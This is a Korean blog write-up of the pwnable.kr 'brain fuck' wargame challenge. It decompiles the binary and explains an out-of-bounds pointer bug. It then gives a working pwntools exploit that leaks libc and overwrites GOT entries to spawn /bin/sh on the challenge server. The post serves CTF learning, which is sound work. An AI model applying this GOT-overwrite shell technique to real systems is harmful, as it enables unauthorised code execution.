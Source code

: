 ```yaml
---
layout: post
date: 2023-01-15
title: "pwnable.kr brain fuck write-up"
tags: [pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```



## 소스코드 분석
---
{% raw %}
``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t i; // [esp+28h] [ebp-40Ch]
  char input[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(input, 0, sizeof(input));
  fgets(input, 1024, stdin);
  for ( i = 0; i < strlen(input); ++i )
    do_brainfuck(input[i]);
  return 0;
}
```
{% endraw %}

{% raw %}
``` c
int __cdecl do_brainfuck(char input)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = input - 43;
  switch ( input )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```
{% endraw %}

brainfuck 언어에서 `[`, `]` 명령어가 제외된 것을 확인할 수 있다.<br>
바이너리 안에서 포인터 값을 조작하며 쉘을 획득할 수 있을 것 같다.

명령어에 대한 설명은 다음과 같다.

| 문자 | 의미 |
|:----|:----|
| `>` | 포인터 증가 |
| `<` | 포인터 감소 |
| `+` | 포인터가 가리키는 바이트의 값 증가 |
| `-` | 포인터가 가리키는 바이트의 값 감소 |
| `.` | 포인터가 가리키는 바이트의 값을 ASCII 문자로 출력 |
| `,` | 포인터가 가리키는 바이트에 입력받은 문자의 ASCII 값을 넣음 |
| `[` | 포인터가 가리키는 바이트의 값이 0이면 짝이 되는 뒤쪽의 `]`로 이동 |
| `]` | 포인터가 가리키는 바이트의 값이 0이 아니면 짝이 되는 앞쪽의 `[`로 이동 |

_출처: [위키백과](https://ko.wikipedia.org/wiki/Brainfuck)_

## 익스플로잇
---

1024 바이트만 입력할 수 있기 때문에 포인터 값을 조작할 수 있는 범위내에서 조작해야 한다.

### 시나리오
1. `system` 함수의 실제 주소를 구한다.
2. `fgets` -> `system` got overwrite
3. `memset` -> `gets` got overwrite
4. `putchar` -> `main` got overwrite
5. `putchar`를 통해 `main` 함수를 호출하여 쉘을 획득한다.

`getchar` 함수로 하위 바이트를 조작하며 overwrite를 진행하였다.

`p`가 가리키는 값을 `p`로 변경하면 `getchar` 함수를 통해 하위 바이트를 쉽게 조작할 수 있다.

{% raw %}
``` python
#bf.py
from pwn import *
# context.log_level = 'debug'

# p = process('./bf')
p = remote('pwnable.kr', 9001)
e = ELF('./bf')
libc = e.libc

payload = '<' * 0x20
payload += ',.>.>.>.'
payload += '>' * 0x65
payload += ',,>,>,>,'
payload += '>' * 0x6d
payload += ',,>,>,>,'
payload += '>' * 0x51
payload += ',,>,>,>,'
payload += '.'

p.sendlineafter(']\n', payload)

p.send('\x18')
puts_addr = u32(p.recvuntil('\xf7'))
libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
gets_addr = libc_base + libc.sym['gets']

log.info('puts: ' + hex(puts_addr))
log.info('libc_base: ' + hex(libc_base))

p.send('\x10')
p.send(p32(system_addr))

p.send('\x2c')
p.send(p32(gets_addr))

p.send('\x30')
p.send(p32(e.sym['main']))

p.sendlineafter(']\n', '/bin/sh')

p.interactive()
```
{% endraw %}



![0](/assets/img/2023-01-15-pwnable.kr-brain-fuck-write-up.md/0.png)




쉘을 획득했다.

